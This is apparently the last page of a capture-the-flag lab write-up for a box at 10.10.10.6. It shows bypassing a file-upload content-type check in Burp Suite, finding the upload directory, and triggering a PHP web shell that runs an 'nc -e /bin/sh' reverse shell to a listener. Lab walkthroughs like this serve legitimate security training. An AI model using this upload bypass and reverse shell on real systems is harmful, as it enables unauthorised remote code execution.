

To bypass the second check, it is possible to intercept the request with Burp Suite and modify  the request. Simply changing application/php to image/png in the POST data is all that is  required.

Looking back at the Dirbuster results for the torrent directory, it appears there is an upload  directory. Browsing to it reveals a listing of all file uploads, with the PHP file listed (although it  does get renamed).
A shell can be obtained from this point by starting a local nc listener with the command nc -nvlp  1234. To start a reverse connection, simply browse to  10.10.10.6/torrent/upload/<FILENAME>.php?cmd=nc -e /bin/sh <LAB IP> <PORT>

The user flag can be obtained from /home/george/user.txt
Page 7 / 7